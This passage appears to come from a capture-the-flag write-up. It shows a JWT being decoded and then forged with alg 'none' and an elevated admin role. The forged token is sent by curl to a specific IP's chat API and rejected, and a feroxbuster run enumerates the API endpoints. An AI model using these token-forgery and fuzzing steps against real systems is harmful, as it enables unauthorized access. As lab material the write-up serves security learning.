 It decodes to : 
```sh
=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] uuid = "a1b47c3d-9c89-4047-bebd-cf3fea9ac7d7"
[+] email = "pentester"
[+] role = "user"
[+] exp = 1746512886    ==> TIMESTAMP = 2025-05-06 09:28:06 (UTC)

----------------------
```

Here we can change the algorithm to `none` since we don't have the `secret` for signing.
```sh
=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "none"
[+] typ = "JWT"

Token payload values:
[+] uuid = "a1b47c3d-9c89-4047-bebd-cf3fea9ac7d7"
[+] email = "admin@bitwall.co.ke"
[+] role = "admin"
[+] exp = 1746512886    ==> TIMESTAMP = 2025-05-06 09:28:06 (UTC)

----------------------
```

Now we try using the token to get the flag : 
```sh
└─$ curl -X POST http://44.206.226.86:5000/api/chat   -H "Content-Type: application/json; charset=utf-8"   -H "x-access-token: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1dWlkIjoiYTFiNDdjM2QtOWM4OS00MDQ3LWJlYmQtY2YzZmVhOWFjN2Q3IiwiZW1haWwiOiJhZG1pbkBiaXR3YWxsLmNvLmtlIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxNzQ2NTEyODg2fQ."   -d '{"message":"flag"}'
{"message":"Token is invalid!"}

```
We get invalid token, I did try other attacks on the token but none worked.

## API Exploitation
To start we only know of four api endpoints.
Fuzzing we do get another one.
```sh
└─$ feroxbuster -u http://44.206.226.86:5000/api/ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints-res.txt

...[snip]...

405      GET        5l       20w      153c http://44.206.226.86:5000/api/register
401      GET        1l        3w       32c http://44.206.226.86:5000/api/user
405      GET        5l       20w      153c http://44.206.226.86:5000/api/chat
405      GET        5l       20w      153c http://44.206.226.86:5000/api/login
503      GET        1l        2w       33c http://44.206.226.86:5000/api/signup

```
